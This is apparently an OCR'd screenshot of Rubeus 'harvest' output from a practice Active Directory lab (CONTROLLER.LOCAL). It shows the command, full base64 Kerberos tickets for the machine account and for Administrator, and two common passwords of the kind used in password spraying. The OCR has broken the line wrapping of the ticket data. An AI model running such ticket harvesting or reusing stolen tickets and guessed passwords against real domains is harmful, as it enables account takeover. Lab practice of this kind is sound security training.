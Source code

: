 Rubeus.exe harvest /interval:30

User                  :  CONTROLLER-1$@CONTROLLER.LOCAL
  StartTime             :  10/27/2021 5:49:06 AM
  EndTime               :  10/27/2021 3:49:06 PM
  RenewTill             :  11/3/2021 5:49:06 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, f
orwardable
  Base64EncodedTicket   :

    doIFhDCCBYCgAwIBBaEDAgEWooIEeDCCBHRhggRwMIIEbKADAgEFoRIbEENPTlRST0xMRVIuTE9D
QUyiJTAjoAMCAQKhHDAaGwZr
    cmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQoMIIEJKADAgESoQMCAQKiggQWBIIEElwMOV5xa9Is
r5GmtlPeD/Rxgaonc+JMNuPd
    C7/ALdgEgJfir6sBl6hB7+06IZubY7JFdTuVPlH3uWtNlpf8kFarXzaSAwEnoWlP25RfBt/Rpv1t
19Ueuf2GiBoDsTGqSS98ImFf
    YIP6Tg8qsk9g24g6CUNg+dUIzFTgTxh8GTeqltBQdnPy3BItgQ8U08zf4oWnlSfdAWH73z4y/q9m
kizhc2nhjl9hNnDEWpKx8MeO
    JXWKSKyEkHW4maXX06IIkIOQDtWZWLHNwGoq8yeh9sN6ZMamxCPKj/94Od37l3yJfOTktEe/tzDP
M6PQUS6QkTUkgyRG8GRhrPfG
    OoID6TeCTZMbpq/PsjMct7tFhiblyvMx1pK/KuNuy3iA7IM3Nrrs/K0mKd9eythSzJhAdbr7SIDq
EQlr5aMrI6HgcImNAa1DZikm
    wfSDZSDLiXntvspUGZd/YnGo6QBG9qtGpMZrI9dEoB0lmYhHUN69ityxz1yDiRqXmAPT8DnhStbh
8Pxfgs2pWV4obToDJ6C/nMvh
    V5hdordO/pMlp/UwaFLJb/zMIQ03kWx1pq9RAb7gufyBt9dPYY1vBrcy5iH5HdTdo/WrTFpYqd1f
Vqz32VqZeX3/oSJ64/1ND8zN
    8OncJxtZkhQOZ1Ssxl2BrzAgZ7uZRkqIKKOwyhXxXSAvX0Bsz8ImStq5f4kI5TCY6yaYHETZi/2b
fx/WYp06k90YdnssHFfa8OmU
    LxkfpZEYWYh7UE/u2JHfjGePGAVA+SC/DWKkGGZwS9kqnYodapUv6jNkLhmDUIKsoBlBohpm9t9D
ZUpqJOVIQ+I6gOjzlDXI2pxj
    eU1QZQ1W7DMIxqccGy4ba0ozkFTyJ7k2TeVgUXFyXewKSaeMTavwzk8+6IZ25wqKbCvDFnChtSyX
wFmd8ZvUTs+9kZ/0vT9bu/BL
    /nOyy09iQr/MvU+F5L7wLqtlZgJVLumyXEjVHcR7bzMW114BoIsguSZcl29F13+cjIPcSKwGili8
EtZ+ieVi2vxcUZA9RRKPoXjI
    0WD6OzlTKakpJ+Wm4kPR4ZnL1SPwLN2GsWS0D7fUMMOrBiLoY1rrExEIURjMOaxmNQL/SvOK6fqW
D0W92g3uMVEERJ8hwjkDhHAC
    yQ6iYGFNX7+x95XLWGurG8fCHTVQIjhZ96PN1Zta47bHn6NuPbD2pGjZw7ODXx4Th7mE4gv3ERnd
6slDIuDtybvZGfc3I8FvDloZ
    42nteWYm0rkFPFTVDU9n8CSqC8hXShYF75prYhTJgXIbBUtxqCwQT5jcpWmefBfCel+OjKm9/ShT
6yRdmrwlLcxjer3X0YUycGbr
    tfuGRk9fmqVd0ncC7SdIqxRsoB+oza2vTQOSlxrdSvnu9fNnd7DZ7++jgfcwgfSgAwIBAKKB7ASB
6X2B5jCB46CB4DCB3TCB2qAr
    MCmgAwIBEqEiBCDdv2Zo+3DKUf0OsaV8BcIpv3flxb0JKj8RHZWexC0WyaESGxBDT05UUk9MTEVS
LkxPQ0FMohowGKADAgEBoREw
    DxsNQ09OVFJPTExFUi0xJKMHAwUAQOEAAKURGA8yMDIxMTAyNzEyNDkwNlqmERgPMjAyMTEwMjcy
MjQ5MDZapxEYDzIwMjExMTAz
    MTI0OTA2WqgSGxBDT05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9M
TEVSLkxPQ0FM

  User                  :  Administrator@CONTROLLER.LOCAL
  StartTime             :  10/27/2021 6:07:03 AM
  EndTime               :  10/27/2021 4:07:03 PM
  RenewTill             :  11/3/2021 6:07:03 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, f
orwardable
  Base64EncodedTicket   :

    doIFjDCCBYigAwIBBaEDAgEWooIEgDCCBHxhggR4MIIEdKADAgEFoRIbEENPTlRST0xMRVIuTE9D
QUyiJTAjoAMCAQKhHDAaGwZr
    cmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQwMIIELKADAgESoQMCAQKiggQeBIIEGs8Y43XRn3KE
1s6V0z9wz3r6hynA+ke/YbM2
    uQczgIOfQ9sSjCmTzV0jG7Xzux7TRbDbIS7TLi0tJaizO+ceGuVjatz6/qt0XYA3TGe88NptIU5F
cWwzsbiOJbGgxpm7cnDS42Y5
    brWpHpXVqBX5ovNviSI/NvJl0nPeHDhBB5qDyEt9bsHOXbX8ptHoTylFO1nKtWf4jcFtSSuqryyB
mlyRWBiZ6d2cLQ3tFQbWFOKP
    9jJkpyczf/PDd1sC9Izo575+XUzW2G1G9oaHX9UDfW91XnCEUG0nE3712Ye4EQCelNmAOaHLpA7p
5FFvzzbzwpbw+h0Qt6v53rnJ
    nd4o73ksVgbLKSJ39L0JTM/cjcrGRlYDOUEFih78YHU7A1rfYCAOhvLn8BaJxh7oEmXFPJAWfpkM
arPRLQ2tdTuuCPc74AN7Ql/v
    6YMvVdmF7AxBkevJUcoaoDAsTnCS7ztpRkqZV8FQG01/5o4MZ1HIXo9vJCfe37ktEj6RqC+g0hgg
QhIJGx0B2jGTp8pQ/KMQQokb
    Fa4FJrx+kk8d/lFAV9SfCc1KZYzlNq5aafE6a7nSOFNTPALmB6CjQhfXEvR0B67drJaRQhrotPAw
4QhRZC4r/fyUrVm65JZeu0GX
    kBM6Ru6VY5mj5G6pWfK6+QRIW4kT5K8jYAXd0GhkjS8t0fJ0/IA1fAwkfQKI+kz8lz7r68kLukMg
h09o8q/AshE/jSenrx1Yh4rM
    x9vDrUtR+kvjTL4FffKJRkZFENpNg3zWnQyvgFr4R3vd+8fuXIi1wzyonCIatqN7jeTmD8wvCZc9
Gajin4gYfLsxx9hoWFZtl4hm
    AgguDsomjmerFx/O52ww4lZtviutwFSUs6815f9/LjheZPhcSAgY311cP3SznrxhfTcIKNFNygYq
YByT1QSSlKCMWMnK5nHbwVqn
    okHb10OmNLhSeqR5ukd23vLbLq8WTFITN/N8dmOOJCVHFTMDRTsKf3jMeLZRpWf0Ah+hPHRx8TtF
WxIV1rEPedUqOsZ0sGS0xntO
    6yVQDx08MiwxcjnwUXsrXE77ZHba7dA/rABbuAkj3Pcaf+XAWoSUTqZc4rXABlODELdqDzEMxdHo
dztdRVPeOTHKzADjRkQdSyUS
    Qy+U+n+nX8xDSo5NcyZuAx03WgMwa2RRRwbJtjH1PihmFw79DDUWNY6UrFdUwWt7Qq7jTSxP5FOC
iZkJQWMMGsy4E8RAOhuCWYYe
    4l+PeRVp4NPTaaFb9zapX3i/+UKJk9NvXRi5Az86aTz4l3wQxsqtya96iKGV2NXwwjCQyKYPq4pa
vGE38n88z5vc+1rE74RdHhwy
    mc9THYWgBPrGMCG1c/DO9EmLwgELiSAGqyBN2Xqm20udJRp94QvdgdQfHW+xD9uvY1nuJ3ceuYQL4wq4VyibKTlezdfYosOTX+QG
    7OPUegApY0UYmv87vNXIFfi4XbWKNT/59O42dg8vh6Ig8YXJTdMa89rTzPPXByJp9WKIxDLhK8eYlf9tuwVaiDcHU0Wm2tepH/FZ
    XqDSp4o3rdP1v+aSomu1AiMGY4s7aOj9U7qYpPLWIcbVT2F75Pcf/lp3lGzKanJ6sDuomfIGnFRD1nINKaDlwx6qjH/dEg+4ihYA
    ZusQvDFR0t1aYpAAXWXYE3VhIV9Ktl9Z71oFAaxBYo0bpCwWzQTF5FzIu5TfUxLV8Eyi8/66VhEss+zxGwVZ3ggNn+Ryt5hz0bV6
    9/M5tSFX66GAal6Fs+7d+yh4cOe1C6GCMBKqfLCAHqbqQACvvu+i2U4H2sy9ESz3cnon5KZa3wvhcEH7PDIJhuGIffNFvpXNudqW
    1x+UCHGKoAdzpIfabmWFfjfLrtDiVq09iE+Rd4rsFZjNG3H6KVyqgeds4MpZ3Yz7VZ2KPko+43KeplshNOt9BFOAHzCXVsAEGVM4
    +M2xXKQrKm4QBQvnrzH4VkBnvjr6Ze5ARwS5hyqDPxHObRgxKWV+nmqjgfcwgfSgAwIBAKKB7ASB6X2B5jCB46CB4DCB3TCB2qAr
    MCmgAwIBEqEiBCCeJW078YXFcNi1XxgQmPWSV305pmIhEwGifjLu94ktBqESGxBDT05UUk9MTEVSLkxPQ0FMohowGKADAgEBoREw
    DxsNQ09OVFJPTExFUi0xJKMHAwUAYKEAAKURGA8yMDIxMTAyNzEyNDkwNlqmERgPMjAyMTEwMjcyMjQ5MDZapxEYDzIwMjExMTAz
    MTI0OTA2WqgSGxBDT05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLkxPQ0FM
	
	MYPassword123#
	
	Summer2020